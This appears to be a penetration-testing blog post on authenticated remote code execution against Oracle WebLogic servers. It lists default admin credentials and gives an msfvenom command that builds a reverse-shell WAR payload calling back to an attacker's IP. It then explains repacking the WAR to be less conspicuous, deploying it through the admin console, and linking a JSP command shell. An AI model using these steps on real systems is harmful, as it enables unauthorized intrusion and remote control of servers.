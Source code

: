 ```yaml
---
layout: post
title: Authenticated RCE in Weblogic Servers
excerpt_separator: <!--more-->
---
```


Weblogic servers are popular in pentests as outdated versions have RCE vulnerabilities with public exploits. However, you can exploit them uploading WAR files as well.

<!--more-->


## Getting access to Weblogic Server

You may find a version of WebLogic Administration Console interface affected by vulnerabilities such as CVE-2020-14882, but it is not always possible to exploit them because of network or system restrictions.

Nevertheless, you can get access by obtaining admin credentials and uploading a malicious application. Some of the default credentials are:

- weblogic:Welcome1

- weblogic:weblogic

- system:weblogic

It usually runs in port 7001 but you can find it in any port.

![img](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/weblogic/6.png)

## Creating WAR file

If you know there are no antivirus or EDR running in the system or you do not care about being detected, you can try uploading a WAR file generated with msfvenom using the parameter "-f war":

```
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > malicious.war
```

This is not the stealthiest method but we can use this file to generate a better WAR file, by decompressing it (it is like a zip file), update the files and compress it again later. The file structure is the following:

- META-INF/MANIFEST.MF
- WEB-INF/web.xml
- evxanqiqlxbhun.jsp

The only thing you should see different is the JSP file name.

![img](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/weblogic/0.png)

We will change the random characters in "web.xml":

![img](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/weblogic/1.png)

![img](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/weblogic/2.png)

And the JSP name to "index.jsp". If we remove the line 3 in the file, we can add any non-malicious code to test the JSP code is executed.

![img](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/weblogic/4.png)

![img](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/weblogic/5.png)

Then we create a WAR compressed file: 

![img](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/weblogic/3.png)


## Upload malicious WAR file

To upload the file and deploy the malicious application we can follow [this IBM guide](https://www.ibm.com/docs/en/control-desk/7.6.0.2?topic=scenario-deploy-application-files-oracle-weblogic-server).

In Deployments, click "Lock & Edit": 

![img](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/weblogic/7.png)

Then "Install":

![img](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/weblogic/8.png)

Load the file and click Next all over again until the application is installed:

![img](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/weblogic/9.png)

Finally, click the creted application in "Deployments", and click "Start":

![img](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/weblogic/10.png)

Finally, click "Release Configuration" in the "Change Center", under the "Lock & Edit" button. Now you should be able to visit the application in "/legitimate" or the endpoint you have created (it probably has the same name as the WAR file).

![img](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/weblogic/11.png)

Now we know JSP code is running in the server, we can create a new WAR file containing a cmdshell, such as [this one](https://gist.github.com/nikallass/5ceef8c8c02d58ca2c69a29a92d2f461) or any custom one for better OPSEC.
